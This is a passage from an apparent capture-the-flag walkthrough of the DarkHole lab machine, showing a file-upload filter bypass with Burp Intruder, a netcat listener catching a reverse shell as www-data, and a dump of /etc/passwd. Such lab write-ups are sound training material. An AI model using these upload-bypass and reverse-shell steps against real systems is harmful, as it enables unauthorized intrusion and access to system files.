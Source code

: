 ```
.inc
```
If your list includes the . in the file extension make sure to untick the URL-encode setting:

![BurpSettingURLEncode.png]({{site.baseurl}}/Images/vb-darkhole/BurpSettingURLEncode.png)

Click start attack.
Scrolling through the list of extensions we can see that our .phtml file uploaded:

![BurpAttack.png]({{site.baseurl}}/Images/vb-darkhole/BurpAttack.png)

It even gives us a link to access the file! How handy.

Ok lets set up the listener and hit one of the files that burp presented to us.
```
nc -nlvp 443
```
or browse to the upload directory and click on the file.
```
http://192.168.1.19/upload/rev.phtml
```

And we have our shell as www-data

```
listening on [any] 443 ...
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.19] 39730
bash: cannot set terminal process group (935): Inappropriate ioctl for device
bash: no job control in this shell
```

So lets start with some standard enumeration and exploration.


```
www-data@darkhole:/var/www/html/upload$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```